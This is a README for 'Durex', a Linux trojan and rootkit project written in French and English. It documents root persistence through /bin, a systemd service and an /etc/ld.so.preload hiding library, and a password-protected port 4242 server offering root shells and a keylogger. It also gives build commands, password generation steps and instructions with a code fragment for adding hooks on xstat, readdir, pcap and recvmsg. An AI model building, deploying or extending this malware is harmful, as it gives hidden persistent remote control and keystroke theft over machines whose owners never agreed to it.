 # DUREX
Simple Trojan

## INFOS
### Le binaire a été testé sur une Debian 9.3.0 64bits.

## INSTALLATION
### As Normal User

```
$> make && ./Durex
JohnDoe
$>
```
At execution, Durex will print the user actually connected.

### As Root
If the user is root, Durex will:

+ Create a copy of himself in /bin
+ Create a durex.service file in /lib/systemd/ to add himself as a service, launching himslef at bootime as a deamon
+ Create a durex.so library in /usr/local/lib/ to hide himself and his functions from the system
+ Add this library in /etc/ld.so.preload
+ Create a Durex.log file in /var/log/

Only one instance of Durex is created.

+ Durex opens a server on port 4242, allowing 3 clients to connect to it
+ The server is locked by a password
+ The server offers to the clients:
	+ A shell as root
	+ A remote shell as root
	+ A keylogger

## MODIFICATION
### Password generation
+ Generate a new password with the 'pass' executable:
```
$> make pass
cc -o pass other/passwd.c srcs/encrypt.c -I includes/
$> ./pass toto
toto (4): 191 248 92 67 189 94 197 184
$> ./pass kata
kata (4): 201 121 30 74 3 83 154 250
```
+ Use your best editor to modify **durex.h** :
```c
# define SERVER_PASS .. .. .. .. ..
```

### Add functions to the library

* Créer votre fichier et compiler le
```
gcc -Wall -fPIC -shared -o ./Durex.so [fichier.c] -ldl
```
* Si tout se passe bien, créer le binaire hex et copier l'hexadecimal de votre fichier
```
make hex && ./hex [fichier.c]
```
* AJouter l'hexa affiché dans le fichier includes/main.h et prenant exemple sur ceux deja mis en place :
```
# define DUREX_XSTAT_FILE		"/tmp/xstat.c"
# define DUREX_XSTAT_SRC		"\x23\x64\x65\x66..."
```
* Ajouter enfin vos #define dans le fichier /srcs/library.c en suivant la logique deja mise en place :
```
int				install_library()
{
	char	*const files[] = { "gcc", "-Wall", "-fPIC", "-shared", "-o", DUREX_PROCESSHIDER_LIB,
							 DUREX_FGETS_FILE, DUREX_LXSTAT_FILE, DUREX_NEWFSTATAT_FILE,
							 DUREX_PCAP_FILE, DUREX_READDIR_FILE, DUREX_RECVMSG_FILE,
							 DUREX_RM_FILE, DUREX_XSTAT_FILE,
							 "-ldl", NULL };
	char	*const src[] = { NULL, NULL, NULL, NULL, NULL, NULL,
							 DUREX_FGETS_SRC, DUREX_LXSTAT_SRC, DUREX_NEWFSTATAT_SRC,
							 DUREX_PCAP_SRC, DUREX_READDIR_SRC, DUREX_RECVMSG_SRC,
							 DUREX_RM_SRC, DUREX_XSTAT_SRC };
   ...
}
```
* Redemarez l'exécutable en prenant soin de faire les bonnes manipulations (le binaire est ineffaçable btw !)
```
make rt
```
* Votre fonction est maintenant intégré au binaire

#### ATTENTION
Toute fonction intégrée à la librairie sera exécuter sur tous les binaires utilisant cette même fonction.
Par exemple:
La librairie actuelle modifie le comportement de l'appel système xstat(...), du coup tous les binaires utilisant xstat (ls, find, grep, etc.) utiliseront votre fonction.

# AUTEUR
* gbourgeo
